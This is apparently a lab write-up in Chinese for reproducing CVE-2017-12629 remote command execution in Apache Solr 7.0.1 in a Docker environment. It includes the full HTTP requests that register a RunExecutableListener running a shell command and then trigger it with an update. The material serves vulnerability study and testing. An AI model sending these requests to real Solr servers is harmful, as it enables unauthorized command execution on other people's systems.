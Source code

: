 # Apache Solr 远程命令执行漏洞（CVE-2017-12629）

Apache Solr 是一个开源的搜索服务器。它使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。在 7.1.0 版本之前，发现了两个漏洞：XML 外部实体注入（XXE）和远程命令执行（RCE），这两个漏洞的编号均为 CVE-2017-12629。这两个漏洞可以连接成利用链。

本环境演示远程命令执行漏洞。

参考链接：

- <https://www.exploit-db.com/exploits/43009/>
- <https://paper.seebug.org/425/>

## 环境搭建

执行如下命令启动 Apache Solr 7.0.1 服务器：

```
docker compose up -d
```

服务启动后，访问 `http://your-ip:8983/` 即可看到 Apache Solr 的管理页面，无需登录。

## 漏洞复现

首先创建一个 listener，设置 `exe` 的值为我们想执行的命令，`args` 的值为命令参数：

```
POST /solr/demo/config HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 158

{"add-listener":{"event":"postCommit","name":"newlistener","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "touch /tmp/success"]}}
```

![](1.png)

然后进行 update 操作，触发刚才添加的 listener：

```
POST /solr/demo/update HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 15

[{"id":"test"}]
```

![](2.png)

执行 `docker compose exec solr bash` 进入容器，可以看到 `/tmp/success` 文件已成功创建：

![](3.png)
